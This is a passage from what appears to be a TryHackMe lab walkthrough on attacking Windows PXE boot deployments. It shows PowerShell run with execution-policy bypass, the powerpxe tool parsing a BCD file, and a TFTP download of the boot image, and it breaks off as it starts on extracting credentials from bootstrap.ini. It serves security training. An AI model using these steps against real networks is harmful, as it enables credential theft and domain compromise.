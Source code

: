 . With the BCD file now recovered, we will be using

[powerpxe](https://github.com/wavestone-cdt/powerpxe)

to read its contents. Powerpxe is a PowerShell script that 
automatically performs this type of attack but usually with varying 
results, so it is better to perform a manual approach. We will use the Get-WimFile function of powerpxe to recover the locations of the PXE Boot images from the BCD file:

SSH Command Prompt

```
C:\Users\THM\Documents\Am0> powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\THM\Documents\am0> Import-Module .\PowerPXE.ps1
PS C:\Users\THM\Documents\am0> $BCDFile = "conf.bcd"
PS C:\Users\THM\Documents\am0> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : <PXE Boot Image Location><PXE Boot Image Location>
```

WIM
 files are bootable images in the Windows Imaging Format (WIM). Now that
 we have the location of the PXE Boot image, we can again use TFTP to 
download this image:

SSH Command Prompt

```
PS C:\Users\THM\Documents\am0> tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim
Transfer successful: 341899611 bytes in 218 second(s), 1568346 bytes/s
```

This
 download will take a while since you are downloading a fully bootable 
and configured Windows image. Maybe stretch your legs and grab a glass 
of water while you wait.

# Recovering Credentials from a PXE Boot Image

Now
 that we have recovered the PXE Boot image, we can exfiltrate stored 
credentials. It should be noted that there are various attacks that we 
could stage. We could inject a local administrator user, so we have 
admin access as soon as the image boots, we could install the image to 
have a domain-joined machine. If you are interested in learning more 
about these attacks, you can read this [article](https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/). This exercise will focus on a simple attack of just attempting to exfiltrate credentials.

Again
 we will use powerpxe to recover the credentials, but you could also do 
this step manually by extracting the image and looking for the 
bootstrap.ini file, where these types of credentials are often stored. 
To use powerpxe to recover the credentials from the bootstrap file, run 
the following command:
